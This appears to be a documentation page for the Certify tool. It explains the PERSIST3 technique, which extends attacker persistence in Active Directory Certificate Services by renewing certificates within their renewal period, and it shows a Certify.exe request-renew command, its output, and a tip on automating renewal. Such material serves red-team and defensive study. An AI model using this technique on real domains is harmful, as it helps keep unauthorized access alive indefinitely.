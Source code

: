 ```yaml
---
title: 'PERSIST3 - Account Persistence via Certificate Renewal'
description: 'Learn how to extend the lifetime of persistence obtained through PERSIST1 or PERSIST2 by continuously renewing certificates before expiration.'
icon: 'arrows-rotate'
sidebarTitle: 'PERSIST3 - Account Persistence via Certificate Renewal'
---
```


PERSIST3 is a technique used to extend the lifetime of persistence obtained through [PERSIST1 - User Persistence via Certificates](./persist1-user-persistence-via-certificates) or [PERSIST2 - Machine Persistence via Certificates](./persist2-machine-persistence-via-certificates). Certificate templates have a `Validity Period` attribute that determines for how long an issued certificate can be used as well as a `Renewal Period` attribute that determines for how long an issued certificate can be renewed.

## Understanding Certificate Validity and Renewal Periods

If we look at the `User` and `Machine` templates displayed in [PERSIST1](./persist1-user-persistence-via-certificates) or [PERSIST2](./persist2-machine-persistence-via-certificates), we see that they have the default values for `Validity Period` (1 year) and `Renewal Period` (6 weeks). This effectively means that certificates issued from these templates can be used for 1 year, but can only be renewed in the first 6 weeks after being issued.

```diff
    Template Name                         : User
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 1
+   Validity Period                       : 1 year
+   Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CORP\Domain Users               S-1-5-21-976219687-1556195986-4104514715-513
      Object Control Permissions

    Template Name                         : Machine
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 1
+   Validity Period                       : 1 year
+   Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Server Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CORP\Domain Computers           S-1-5-21-976219687-1556195986-4104514715-515
      Object Control Permissions
```

<Info>
If you continuously renew a certificate before expiration of the `Renewal Period`, you can extend your persistence indefinitely.
</Info>

## Certificate Renewal Process

This can be done using the `request-renew` command from Certify.

```
> Certify.exe request-renew --ca ca01.corp.local\corp-CA01-CA --cert-pfx MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate renewal

[*] Current user context    : CORP\lowpriv

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 2

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:03.8915965
```

<Warning>
Certificate renewal must be performed within the `Renewal Period` (typically 6 weeks) after the original certificate was issued. If this window expires, you will need to request a new certificate using the original PERSIST1 or PERSIST2 techniques.
</Warning>

## Maintaining Indefinite Persistence

By setting up an automated process to renew certificates before the renewal period expires, an attacker can maintain persistence indefinitely, as long as:

1. The certificate template remains available and unchanged
2. The user or machine account retains enrollment rights
3. The Certificate Authority remains accessible
4. The renewal is performed within the designated renewal period

<Tip>
Consider automating the renewal process to ensure persistence is maintained without manual intervention. This can be achieved through scheduled tasks or other automation mechanisms.
</Tip>